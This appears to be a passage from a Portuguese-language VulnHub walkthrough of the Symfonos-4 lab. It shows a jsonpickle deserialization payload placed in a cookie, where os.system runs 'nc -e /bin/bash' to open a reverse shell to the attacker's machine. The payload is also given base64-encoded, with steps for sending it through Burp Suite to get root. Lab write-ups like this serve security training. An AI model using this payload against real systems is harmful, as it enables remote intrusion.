 * Agora vamos alterar o cookie inserindo o nosso payload

```bash
{"py/object": "rev.Shell", "py/reduce": [{"py/type": "os.system"}, {"py/tuple": ["/usr/bin/nc -e /bin/bash 192.168.150.110 4444"]}, null, null, null]}
```
* Antes de enviar temos que codificar em base64 o nosso payload

![](/assets/img/Vulnhub/Symfonos-4/payload-convert.png)

> eyJweS9vYmplY3QiOiAicmV2LlNoZWxsIiwgInB5L3JlZHVjZSI6IFt7InB5L3R5cGUiOiAib3Muc3lzdGVtIn0sIHsicHkvdHVwbGUiOiBbIi91c3IvYmluL25jIC1lIC9iaW4vYmFzaCAxOTIuMTY4LjE1MC4xMTAgNDQ0NCJdfSwgbnVsbCwgbnVsbCwgbnVsbF19


* Agora e so mandar via burp suite para virarmos **root**. Nao esqueca de deixar a porta escutando na kali

![](/assets/img/Vulnhub/Symfonos-4/payload-envio-burp.png)

> Para enviar basta clicar em "Forward"
